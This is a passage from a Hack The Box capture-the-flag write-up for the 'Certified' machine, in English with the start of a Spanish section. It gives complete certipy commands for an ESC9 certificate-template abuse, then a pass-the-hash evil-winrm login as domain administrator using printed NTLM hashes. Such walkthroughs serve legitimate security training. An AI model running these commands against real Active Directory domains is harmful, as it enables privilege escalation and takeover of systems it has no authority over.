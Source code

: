 ![Pic]({{ '/assets/img/certified/16pic.png' | relative_url }}){: .center-image }

To exploit this we can check the certipy's documentation, which redirects us to [this blog](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7) where we can find the same case, ESC9.

As we can see in this blog, the first step is to get a user with "GenericWrite" over another, in our case management\_svc has it over ca\_operator. ca\_operator is able to enroll to the "CertifiedAuthentication" template. Now we are going to change the UPN or "UserPrincipalName" of this user to administrator.

```sh
certipy account update -username management_svc -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator -target 10.10.11.41
```

![Pic]({{ '/assets/img/certified/17pic.png' | relative_url }}){: .center-image }

Now we can request the certificate of the vulnerable template.

```sh
certipy req -template "CertifiedAuthentication" -u "ca_operator" -p "pass123" -dc-ip 10.10.11.41 -ca "certified-DC01-CA"
```

![Pic]({{ '/assets/img/certified/18pic.png' | relative_url }}){: .center-image }

It is important to change the UPN again to another thing to avoid conflicts.

```sh
certipy account update -username management_svc -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator -target 10.10.11.41
```

Finally we can authenticate to the domain using the certificate generated.

```sh
certipy auth -pfx administrator.pfx -domain certified.htb
```

![Pic]({{ '/assets/img/certified/19pic.png' | relative_url }}){: .center-image }

Now we can connect to the machine using **evil-winrm**.

```sh
evil-winrm -i 10.10.11.41 -u administrator -H 0d5b49608bbce1751f708748f67e2d34
```

![Pic]({{ '/assets/img/certified/20pic.png' | relative_url }}){: .center-image }





## Reconocimiento

Una vez más, Hack The Box nos proporciona credenciales para iniciar la máquina tal y como se suele hace en las auditorías reales. Estas credenciales se pueden encontrar en la parte superior del panel de inicio de la máquina.
